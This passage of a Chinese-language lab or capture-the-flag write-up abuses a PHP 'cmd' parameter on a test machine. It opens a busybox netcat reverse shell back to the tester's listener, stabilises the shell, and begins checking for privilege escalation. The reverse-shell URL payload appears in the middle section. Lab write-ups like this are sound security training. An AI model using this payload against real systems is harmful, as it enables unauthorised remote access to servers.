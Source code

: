 发现参数 `cmd` 可以执行 PHP 代码。

测试访问 `http://192.168.205.235/karsakarsa369.php?cmd=phpinfo();` 确认可以执行 PHP 函数，从 phpinfo 输出看到默认的 disable_functions 设置，但 `exec` 函数是可用的。

## 反弹 Shell

建立 netcat 监听：

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ nc -lvnp 8888               
listening on [any] 8888 ...
```

通过 exec 函数执行反弹 Shell 命令：

```
http://192.168.205.235/karsakarsa369.php?cmd=exec('busybox nc 192.168.205.128 8888 -e /bin/bash');
```

**注意**：虽然执行 `id` 命令可能没有回显，但命令确实会被执行。

成功获取反弹 Shell：

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ nc -lvnp 8888               
listening on [any] 8888 ...
connect to [192.168.205.128] from (UNKNOWN) [192.168.205.235] 50220
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Shell 优化

使用 Python 脚本优化 Shell 环境：

```bash
script /dev/null -c bash
Ctrl+Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash
stty rows 36 columns 178
```

# 五、权限提升

## 系统信息收集

获取 Shell 后进行系统信息收集：

```bash
www-data@logi:/var/www/html$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@logi:/var/www/html$ sudo -l

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for www-data: 
sudo: a password is required
```